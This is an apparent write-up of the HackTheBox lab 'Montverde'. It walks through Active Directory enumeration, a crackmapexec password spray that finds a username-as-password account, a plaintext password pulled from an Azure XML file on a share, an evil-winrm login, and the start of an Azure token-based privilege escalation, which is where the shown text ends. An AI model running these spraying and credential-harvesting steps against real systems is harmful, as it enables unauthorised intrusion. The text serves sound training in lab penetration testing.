

HTB Montverde Writeup
Some Active Directory goodness
Published: July 11, 2023
Reading Time: 17 minutes
HTB “Montverde” Writeup
Montverde is a medium rank Active Directory Box on HTB that had some interesting twists on the privesc, but classic AD on the initial access.
Enumeration
We can start out with an nmap scan.
1[~/htb/montverde]$ cat montverde.nmap
2# Nmap 7.94 scan initiated Tue Jul 11 18:35:51 2023 as: nmap -sC -sV -oA montverde -v -Pn 10.10.10.172
3Nmap scan report for 10.10.10.172
4Host is up (0.033s latency).
5Not shown: 989 filtered tcp ports (no-response)
6PORT STATE SERVICE VERSION
753/tcp open domain Simple DNS Plus
888/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2023-07-11 22:36:05Z)
9135/tcp open msrpc Microsoft Windows RPC
10139/tcp open netbios-ssn Microsoft Windows netbios-ssn
11389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
12445/tcp open microsoft-ds?
13464/tcp open kpasswd5?
14593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
15636/tcp open tcpwrapped
163268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
173269/tcp open tcpwrapped
18Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows
19
20Host script results:
21| smb2-time:
22| date: 2023-07-11T22:36:10
23|_ start_date: N/A
24| smb2-security-mode:
25| 3:1:1:
26|_ Message signing enabled and required
Here we see some pretty standard AD ports, with kerberos.
I also ran enum4linux as that has been a very helpful tool to initially footprint a domain.
1[~/htb/montverde]$ enum4linux 10.10.10.172
2Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Jul 11 18:36:27 2023
3
4 =========================================( Target Information )=========================================
5
6Target ........... 10.10.10.172
7RID Range ........ 500-550,1000-1050
8Username ......... ''
9Password ......... ''
10Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
11
12
13 ============================( Enumerating Workgroup/Domain on 10.10.10.172 )============================
14
15
16[E] Can't find workgroup/domain
17
18
19
20 ================================( Nbtstat Information for 10.10.10.172 )================================
21
22Looking up status of 10.10.10.172
23No reply from 10.10.10.172
24
25 ===================================( Session Check on 10.10.10.172 )===================================
26
27
28[+] Server 10.10.10.172 allows sessions using username '', password ''
29
30
31 ================================( Getting domain SID for 10.10.10.172 )================================
32
33Domain Name: MEGABANK
34Domain Sid: S-1-5-21-391775091-850290835-3566037492
35
36[+] Host is part of a domain (not a workgroup)
37
38
39 ===================================( OS information on 10.10.10.172 )===================================
40
41
42[E] Can't get OS info with smbclient
43
44
45[+] Got OS info for 10.10.10.172 from srvinfo:
46do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED
47
48
49 =======================================( Users on 10.10.10.172 )=======================================
50
51index: 0xfb6 RID: 0x450 acb: 0x00000210 Account: AAD_987d7f2f57d2 Name: AAD_987d7f2f57d2 Desc: Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
52index: 0xfd0 RID: 0xa35 acb: 0x00000210 Account: dgalanos Name: Dimitris Galanos Desc: (null)
53index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest Name: (null) Desc: Built-in account for guest access to the computer/domain
54index: 0xfc3 RID: 0x641 acb: 0x00000210 Account: mhope Name: Mike Hope Desc: (null)
55index: 0xfd1 RID: 0xa36 acb: 0x00000210 Account: roleary Name: Ray O'Leary Desc: (null)
56index: 0xfc5 RID: 0xa2a acb: 0x00000210 Account: SABatchJobs Name: SABatchJobs Desc: (null)
57index: 0xfd2 RID: 0xa37 acb: 0x00000210 Account: smorgan Name: Sally MorganDesc: (null)
58index: 0xfc6 RID: 0xa2b acb: 0x00000210 Account: svc-ata Name: svc-ata Desc: (null)
59index: 0xfc7 RID: 0xa2c acb: 0x00000210 Account: svc-bexec Name: svc-bexec Desc: (null)
60index: 0xfc8 RID: 0xa2d acb: 0x00000210 Account: svc-netapp Name: svc-netapp Desc: (null)
61
62user:[Guest] rid:[0x1f5]
63user:[AAD_987d7f2f57d2] rid:[0x450]
64user:[mhope] rid:[0x641]
65user:[SABatchJobs] rid:[0xa2a]
66user:[svc-ata] rid:[0xa2b]
67user:[svc-bexec] rid:[0xa2c]
68user:[svc-netapp] rid:[0xa2d]
69user:[dgalanos] rid:[0xa35]
70user:[roleary] rid:[0xa36]
71user:[smorgan] rid:[0xa37]
72
73 =================================( Share Enumeration on 10.10.10.172 )=================================
74
75do_connect: Connection to 10.10.10.172 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
76
77 Sharename Type Comment
78 --------- ---- -------
79Reconnecting with SMB1 for workgroup listing.
80Unable to connect with SMB1 -- no workgroup available
81
82[+] Attempting to map shares on 10.10.10.172
83
84
85 ============================( Password Policy Information for 10.10.10.172 )============================
86
87
88
89[+] Attaching to 10.10.10.172 using a NULL share
90
91[+] Trying protocol 139/SMB...
92
93 [!] Protocol failed: Cannot request session (Called Name:10.10.10.172)
94
95[+] Trying protocol 445/SMB...
96
97[+] Found domain(s):
98
99 [+] MEGABANK
100 [+] Builtin
101
102[+] Password Info for Domain: MEGABANK
103
104 [+] Minimum password length: 7
105 [+] Password history length: 24
106 [+] Maximum password age: 41 days 23 hours 53 minutes
107 [+] Password Complexity Flags: 000000
108
109 [+] Domain Refuse Password Change: 0
110 [+] Domain Password Store Cleartext: 0
111 [+] Domain Password Lockout Admins: 0
112 [+] Domain Password No Clear Change: 0
113 [+] Domain Password No Anon Change: 0
114 [+] Domain Password Complex: 0
115
116 [+] Minimum password age: 1 day 4 minutes
117 [+] Reset Account Lockout Counter: 30 minutes
118 [+] Locked Account Duration: 30 minutes
119 [+] Account Lockout Threshold: None
120 [+] Forced Log off Time: Not Set
121
122
123
124[+] Retieved partial password policy with rpcclient:
125
126
127Password Complexity: Disabled
128Minimum Password Length: 7
129
130
131 =======================================( Groups on 10.10.10.172 )=======================================
132
133
134[+] Getting builtin groups:
135
136group:[Pre-Windows 2000 Compatible Access] rid:[0x22a]
137group:[Incoming Forest Trust Builders] rid:[0x22d]
138group:[Windows Authorization Access Group] rid:[0x230]
139group:[Terminal Server License Servers] rid:[0x231]
140group:[Users] rid:[0x221]
141group:[Guests] rid:[0x222]
142group:[Remote Desktop Users] rid:[0x22b]
143group:[Network Configuration Operators] rid:[0x22c]
144group:[Performance Monitor Users] rid:[0x22e]
145group:[Performance Log Users] rid:[0x22f]
146group:[Distributed COM Users] rid:[0x232]
147group:[IIS_IUSRS] rid:[0x238]
148group:[Cryptographic Operators] rid:[0x239]
149group:[Event Log Readers] rid:[0x23d]
150group:[Certificate Service DCOM Access] rid:[0x23e]
151group:[RDS Remote Access Servers] rid:[0x23f]
152group:[RDS Endpoint Servers] rid:[0x240]
153group:[RDS Management Servers] rid:[0x241]
154group:[Hyper-V Administrators] rid:[0x242]
155group:[Access Control Assistance Operators] rid:[0x243]
156group:[Remote Management Users] rid:[0x244]
157group:[Storage Replica Administrators] rid:[0x246]
158
159[+] Getting builtin group memberships:
160
161Group: Remote Management Users' (RID: 580) has member: Couldn't lookup SIDs
162Group: Users' (RID: 545) has member: Couldn't lookup SIDs
163Group: Pre-Windows 2000 Compatible Access' (RID: 554) has member: Couldn't lookup SIDs
164Group: IIS_IUSRS' (RID: 568) has member: Couldn't lookup SIDs
165Group: Guests' (RID: 546) has member: Couldn't lookup SIDs
166Group: Windows Authorization Access Group' (RID: 560) has member: Couldn't lookup SIDs
167
168[+] Getting local groups:
169
170group:[Cert Publishers] rid:[0x205]
171group:[RAS and IAS Servers] rid:[0x229]
172group:[Allowed RODC Password Replication Group] rid:[0x23b]
173group:[Denied RODC Password Replication Group] rid:[0x23c]
174group:[DnsAdmins] rid:[0x44d]
175group:[SQLServer2005SQLBrowserUser$MONTEVERDE] rid:[0x44f]
176group:[ADSyncAdmins] rid:[0x451]
177group:[ADSyncOperators] rid:[0x452]
178group:[ADSyncBrowse] rid:[0x453]
179group:[ADSyncPasswordSet] rid:[0x454]
180
181[+] Getting local group memberships:
182
183Group: ADSyncAdmins' (RID: 1105) has member: Couldn't lookup SIDs
184Group: Denied RODC Password Replication Group' (RID: 572) has member: Couldn't lookup SIDs
185
186[+] Getting domain groups:
187
188group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
189group:[Domain Users] rid:[0x201]
190group:[Domain Guests] rid:[0x202]
191group:[Domain Computers] rid:[0x203]
192group:[Group Policy Creator Owners] rid:[0x208]
193group:[Cloneable Domain Controllers] rid:[0x20a]
194group:[Protected Users] rid:[0x20d]
195group:[DnsUpdateProxy] rid:[0x44e]
196group:[Azure Admins] rid:[0xa29]
197group:[File Server Admins] rid:[0xa2e]
198group:[Call Recording Admins] rid:[0xa2f]
199group:[Reception] rid:[0xa30]
200group:[Operations] rid:[0xa31]
201group:[Trading] rid:[0xa32]
202group:[HelpDesk] rid:[0xa33]
203group:[Developers] rid:[0xa34]
204
205[+] Getting domain group memberships:
206
207Group: 'Operations' (RID: 2609) has member: MEGABANK\smorgan
208Group: 'Domain Users' (RID: 513) has member: MEGABANK\Administrator
209Group: 'Domain Users' (RID: 513) has member: MEGABANK\krbtgt
210Group: 'Domain Users' (RID: 513) has member: MEGABANK\AAD_987d7f2f57d2
211Group: 'Domain Users' (RID: 513) has member: MEGABANK\mhope
212Group: 'Domain Users' (RID: 513) has member: MEGABANK\SABatchJobs
213Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-ata
214Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-bexec
215Group: 'Domain Users' (RID: 513) has member: MEGABANK\svc-netapp
216Group: 'Domain Users' (RID: 513) has member: MEGABANK\dgalanos
217Group: 'Domain Users' (RID: 513) has member: MEGABANK\roleary
218Group: 'Domain Users' (RID: 513) has member: MEGABANK\smorgan
219Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\Administrator
220Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\AAD_987d7f2f57d2
221Group: 'Azure Admins' (RID: 2601) has member: MEGABANK\mhope
222Group: 'Domain Guests' (RID: 514) has member: MEGABANK\Guest
223Group: 'Group Policy Creator Owners' (RID: 520) has member: MEGABANK\Administrator
224Group: 'Trading' (RID: 2610) has member: MEGABANK\dgalanos
225Group: 'HelpDesk' (RID: 2611) has member: MEGABANK\roleary
226
227 ==================( Users on 10.10.10.172 via RID cycling (RIDS: 500-550,1000-1050) )==================
228
229
230[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED. RID cycling not possible.
231
232
233 ===============================( Getting printer info for 10.10.10.172 )===============================
234
235do_cmd: Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED
236
237
238enum4linux complete on Tue Jul 11 18:37:32 2023
This gave us a lot of interesting info, like users, groups, crucially there is no lockout on the password policy.
One interesting group is the azure admins.
ldapsearch provides even more enumeration of the domain.
1[~/htb/montverde]$ ldapsearch -H ldap://10.10.10.172 -x -s base namingcontexts - simple auth
2# extended LDIF
3#
4# LDAPv3
5# base <> (default) with scope baseObject
6# filter: (objectclass=*)
7# requesting: namingcontexts - simple auth
8#
9
10#
11dn:
12namingcontexts: DC=MEGABANK,DC=LOCAL
13namingcontexts: CN=Configuration,DC=MEGABANK,DC=LOCAL
14namingcontexts: CN=Schema,CN=Configuration,DC=MEGABANK,DC=LOCAL
15namingcontexts: DC=DomainDnsZones,DC=MEGABANK,DC=LOCAL
16namingcontexts: DC=ForestDnsZones,DC=MEGABANK,DC=LOCAL
17
18# search result
19search: 2
20result: 0 Success
21
22# numResponses: 2
23# numEntries: 1
1ldapsearch -H ldap://10.10.10.172 -x -b "DC=megabank,DC=local" >
2 ldapsearch.out
Notably, the domain was just spewing out so much info unauthenticated, I had to learn how to filter ldapsearch.
1ldapsearch -H ldap://10.10.10.172 -x -b "DC=megabank,DC=local" -W "(objectclass=person)" cn uid homeDirectory
Foothold
Since there is no lockout policy, we can spray and pray.
The wordlist that I went with, was the one that was provided in the walkthrough after getting stuck for a bit. We can combine the usernames, along with a list of bad corporate passwords.
Throw the userlist and passlist into crackmapexec and see what happens.
1[~/htb/montverde]$ crackmapexec smb -u users.txt -p spraylist.txt -d megabank --continue-on-success -dc 10.10.10.172
2SMB 10.10.10.172 445 MONTEVERDE [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:c) (signing:True) (SMBv1:False)
3SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:mhope STATUS_LOGON_FAILURE
4SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:SABatchJobs STATUS_LOGON_FAILURE
5SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:svc-ata STATUS_LOGON_FAILURE
6SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:svc-bexec STATUS_LOGON_FAILURE
7SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:svc-netapp STATUS_LOGON_FAILURE
8SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:dgalanos STATUS_LOGON_FAILURE
9SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:roleary STATUS_LOGON_FAILURE
10SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:Password1 STATUS_LOGON_FAILURE
11SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:Welcome1 STATUS_LOGON_FAILURE
12SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:Letmein1 STATUS_LOGON_FAILURE
13SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:Password123 STATUS_LOGON_FAILURE
14SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:Welcome123 STATUS_LOGON_FAILURE
15SMB 10.10.10.172 445 MONTEVERDE [-] c\mhope:Letmein123 STATUS_LOGON_FAILURE
16SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:mhope STATUS_LOGON_FAILURE
17SMB 10.10.10.172 445 MONTEVERDE [+] c\SABatchJobs:SABatchJobs
18SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:svc-ata STATUS_LOGON_FAILURE
19SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:svc-bexec STATUS_LOGON_FAILURE
20SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:svc-netapp STATUS_LOGON_FAILURE
21SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:dgalanos STATUS_LOGON_FAILURE
22SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:roleary STATUS_LOGON_FAILURE
23SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:Password1 STATUS_LOGON_FAILURE
24SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:Welcome1 STATUS_LOGON_FAILURE
25SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:Letmein1 STATUS_LOGON_FAILURE
26SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:Password123 STATUS_LOGON_FAILURE
27SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:Welcome123 STATUS_LOGON_FAILURE
28SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:Letmein123 STATUS_LOGON_FAILURE
29SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:mhope STATUS_LOGON_FAILURE
30SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:SABatchJobs STATUS_LOGON_FAILURE
31SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:svc-ata STATUS_LOGON_FAILURE
32SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:svc-bexec STATUS_LOGON_FAILURE
33SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:svc-netapp STATUS_LOGON_FAILURE
34SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:dgalanos STATUS_LOGON_FAILURE
35SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:roleary STATUS_LOGON_FAILURE
36SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:Password1 STATUS_LOGON_FAILURE
37SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:Welcome1 STATUS_LOGON_FAILURE
38SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:Letmein1 STATUS_LOGON_FAILURE
39SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:Password123 STATUS_LOGON_FAILURE
40SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:Welcome123 STATUS_LOGON_FAILURE
41SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:Letmein123 STATUS_LOGON_FAILURE
42SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:mhope STATUS_LOGON_FAILURE
43SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:SABatchJobs STATUS_LOGON_FAILURE
44SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:svc-ata STATUS_LOGON_FAILURE
45SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:svc-bexec STATUS_LOGON_FAILURE
46SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:svc-netapp STATUS_LOGON_FAILURE
47SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:dgalanos STATUS_LOGON_FAILURE
48SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:roleary STATUS_LOGON_FAILURE
49SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:Password1 STATUS_LOGON_FAILURE
50SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:Welcome1 STATUS_LOGON_FAILURE
51SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:Letmein1 STATUS_LOGON_FAILURE
52SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:Password123 STATUS_LOGON_FAILURE
53SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:Welcome123 STATUS_LOGON_FAILURE
54SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:Letmein123 STATUS_LOGON_FAILURE
55SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:mhope STATUS_LOGON_FAILURE
56SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:SABatchJobs STATUS_LOGON_FAILURE
57SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:svc-ata STATUS_LOGON_FAILURE
58SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:svc-bexec STATUS_LOGON_FAILURE
59SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:svc-netapp STATUS_LOGON_FAILURE
60SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:dgalanos STATUS_LOGON_FAILURE
61SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:roleary STATUS_LOGON_FAILURE
62SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:Password1 STATUS_LOGON_FAILURE
63SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:Welcome1 STATUS_LOGON_FAILURE
64SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:Letmein1 STATUS_LOGON_FAILURE
65SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:Password123 STATUS_LOGON_FAILURE
66SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:Welcome123 STATUS_LOGON_FAILURE
67SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:Letmein123 STATUS_LOGON_FAILURE
68SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:mhope STATUS_LOGON_FAILURE
69SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:SABatchJobs STATUS_LOGON_FAILURE
70SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:svc-ata STATUS_LOGON_FAILURE
71SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:svc-bexec STATUS_LOGON_FAILURE
72SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:svc-netapp STATUS_LOGON_FAILURE
73SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:dgalanos STATUS_LOGON_FAILURE
74SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:roleary STATUS_LOGON_FAILURE
75SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:Password1 STATUS_LOGON_FAILURE
76SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:Welcome1 STATUS_LOGON_FAILURE
77SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:Letmein1 STATUS_LOGON_FAILURE
78SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:Password123 STATUS_LOGON_FAILURE
79SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:Welcome123 STATUS_LOGON_FAILURE
80SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:Letmein123 STATUS_LOGON_FAILURE
81SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:mhope STATUS_LOGON_FAILURE
82SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:SABatchJobs STATUS_LOGON_FAILURE
83SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:svc-ata STATUS_LOGON_FAILURE
84SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:svc-bexec STATUS_LOGON_FAILURE
85SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:svc-netapp STATUS_LOGON_FAILURE
86SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:dgalanos STATUS_LOGON_FAILURE
87SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:roleary STATUS_LOGON_FAILURE
88SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:Password1 STATUS_LOGON_FAILURE
89SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:Welcome1 STATUS_LOGON_FAILURE
90SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:Letmein1 STATUS_LOGON_FAILURE
91SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:Password123 STATUS_LOGON_FAILURE
92SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:Welcome123 STATUS_LOGON_FAILURE
93SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:Letmein123 STATUS_LOGON_FAILURE
We got one hit:
SMB 10.10.10.172 445 MONTEVERDE [+] c\SABatchJobs:SABatchJobs
Now we can start doing some stuff like listing shares:
1[~/htb/montverde]$ smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
2[+] IP: 10.10.10.172:445 Name: megabank.local
3 Disk Permissions Comment
4 ---- ----------- -------
5 ADMIN$ NO ACCESS Remote Admin
6 azure_uploads READ ONLY
7 C$ NO ACCESS Default share
8 E$ NO ACCESS Default share
9 IPC$ READ ONLY Remote IPC
10 NETLOGON READ ONLY Logon server share
11 SYSVOL READ ONLY Logon server share
12 users$ READ ONLY
azure_uploads looks interesting.
I also did an ldapdomaindump since I have creds now.
1ldapdomaindump -u megabank.local\\SABatchJobs -p 'SABatchJobs' 10.10.10.172 -o ldap/
This gives me an easy way to look through domain info.
After getting stuck for a bit, I learned a new tactic to use smbmap to look for interesting files in shares.
1smbmap -u SABatchJobs -p SABatchJobs -d megabank -H 10.10.10.172 -A '(xlsx|docx|txt|xml)' -R
This gave us azure.xml with another set of creds.
1[~/htb/montverde]$ cat 10.10.10.172-users_mhope_azure.xml
2<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
3 <Obj RefId="0">
4 <TN RefId="0">
5 <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
6 <T>System.Object</T>
7 </TN>
8 <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
9 <Props>
10 <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
11 <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
12 <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
13 <S N="Password">4n0therD4y@n0th3r$</S>
14 </Props>
15 </Obj>
16</Objs>
This was promptly fed back into crackmapexec.
1[~/htb/montverde]$ crackmapexec smb -u users.txt -p '4n0therD4y@n0th3r$' -d megabank --continue-on-success -dc 10.10.10.172
2SMB 10.10.10.172 445 MONTEVERDE [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:c) (signing:True) (SMBv1:False)
3SMB 10.10.10.172 445 MONTEVERDE [+] c\mhope:4n0therD4y@n0th3r$
4SMB 10.10.10.172 445 MONTEVERDE [-] c\SABatchJobs:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
5SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-ata:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
6SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-bexec:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
7SMB 10.10.10.172 445 MONTEVERDE [-] c\svc-netapp:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
8SMB 10.10.10.172 445 MONTEVERDE [-] c\dgalanos:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
9SMB 10.10.10.172 445 MONTEVERDE [-] c\roleary:4n0therD4y@n0th3r$ STATUS_LOGON_FAILURE
Here we found that this was valid for mhope.
From looking through the ldapdomaindump data I know that this user is in the Remote Management Users group, and so we can winrm in.
1evil-winrm -u mhope -p '4n0therD4y@n0th3r$' -i 10.10.10.172
Privesc
Immediately I noticed the .Azure folder in the home folder of my user.
I downloaded it and searched on some of the files. Saw this github issue, and went down the rabbit hole of trying to exploit the access tokens in there.
1*Evil-WinRM* PS C:\Users\mhope> Get-AzContext -ListAvailable
2
3Name Account SubscriptionName Environment TenantId
4---- ------- ---------------- ----------- --------
5372efea9-7bc4-4b76-8839-984b45edfb98 ... john@a67632354763outlook.onmicrosoft.com AzureCloud 372efea9-7bc4-4b76-8839-984b45edfb98
6
7
8*Evil-WinRM* PS C:\Users\mhope> Import-AzContext -Path c:\Users\mhope\tokencahe.json
9
10Account SubscriptionName TenantId Environment
11------- ---------------- -------- -----------
12john@a67632354763outlook.onmicrosoft.com 372efea9-7bc4-4b76-8839-984b45edfb98 AzureCloud
tokencahe.json was the json that I pulled out of the .dat file to use to authenticate here.
I saw what azure powershell modules were loaded and then attempted to use some of those for privesc.
1*Evil-WinRM* PS C:\Users\mhope> gci -Filter *Az.* -Path "C:\Program Files\windowspowershell\modules"
2
3
4 Directory: C:\Program Files\windowspowershell\modules
5
6
7Mode LastWriteTime Length Name
8---- ------------- ------ ----
9d----- 1/3/2020 5:29 AM Az.Accounts
10d----- 1/3/2020 5:29 AM Az.Resources
11
12*Evil-WinRM* PS C:\program files\windowspowershell\modules\az.accounts\1.6.6> Get-Command -CommandType Cmdlet | findstr /r "Az."
13 Cmdlet Add-AzADGroupMember 1.9.0 Az.Resources
14Cmdlet Add-AzEnvironment 1.6.6 Az.Accounts
15Cmdlet Clear-AzContext 1.6.6 Az.Accounts
16Cmdlet Clear-AzDefault 1.6.6 Az.Accounts
17Cmdlet Connect-AzAccount 1.6.6 Az.Accounts
18Cmdlet Disable-AzContextAutosave 1.6.6 Az.Accounts
19Cmdlet Disable-AzDataCollection 1.6.6 Az.Accounts
20Cmdlet Disable-AzureRmAlias 1.6.6 Az.Accounts
21Cmdlet Disconnect-AzAccount 1.6.6 Az.Accounts
22Cmdlet Enable-AzContextAutosave 1.6.6 Az.Accounts
23Cmdlet Enable-AzDataCollection 1.6.6 Az.Accounts
24Cmdlet Enable-AzureADConnectHealth 1.0 AzureADConnectHealthSync
25Cmdlet Enable-AzureRmAlias 1.6.6 Az.Accounts
26Cmdlet Export-AzResourceGroup 1.9.0 Az.Resources
27Cmdlet Get-AzADAppCredential 1.9.0 Az.Resources
28Cmdlet Get-AzADApplication 1.9.0 Az.Resources
29Cmdlet Get-AzADGroup 1.9.0 Az.Resources
30Cmdlet Get-AzADGroupMember 1.9.0 Az.Resources
31Cmdlet Get-AzADServicePrincipal 1.9.0 Az.Resources
32Cmdlet Get-AzADSpCredential 1.9.0 Az.Resources
33Cmdlet Get-AzADUser 1.9.0 Az.Resources
34Cmdlet Get-AzContext 1.6.6 Az.Accounts
35Cmdlet Get-AzContextAutosaveSetting 1.6.6 Az.Accounts
36Cmdlet Get-AzDefault 1.6.6 Az.Accounts
37Cmdlet Get-AzDenyAssignment 1.9.0 Az.Resources
38Cmdlet Get-AzDeployment 1.9.0 Az.Resources
39Cmdlet Get-AzDeploymentOperation 1.9.0 Az.Resources
40Cmdlet Get-AzEnvironment 1.6.6 Az.Accounts
41Cmdlet Get-AzLocation 1.9.0 Az.Resources
42Cmdlet Get-AzManagedApplication 1.9.0 Az.Resources
43Cmdlet Get-AzManagedApplicationDefinition 1.9.0 Az.Resources
44Cmdlet Get-AzManagementGroup 1.9.0 Az.Resources
45Cmdlet Get-AzPolicyAlias 1.9.0 Az.Resources
46Cmdlet Get-AzPolicyAssignment 1.9.0 Az.Resources
47Cmdlet Get-AzPolicyDefinition 1.9.0 Az.Resources
48Cmdlet Get-AzPolicySetDefinition 1.9.0 Az.Resources
49Cmdlet Get-AzProfile 1.6.6 Az.Accounts
50Cmdlet Get-AzProviderFeature 1.9.0 Az.Resources
51Cmdlet Get-AzProviderOperation 1.9.0 Az.Resources
52Cmdlet Get-AzResource 1.9.0 Az.Resources
53Cmdlet Get-AzResourceGroup 1.9.0 Az.Resources
54Cmdlet Get-AzResourceGroupDeployment 1.9.0 Az.Resources
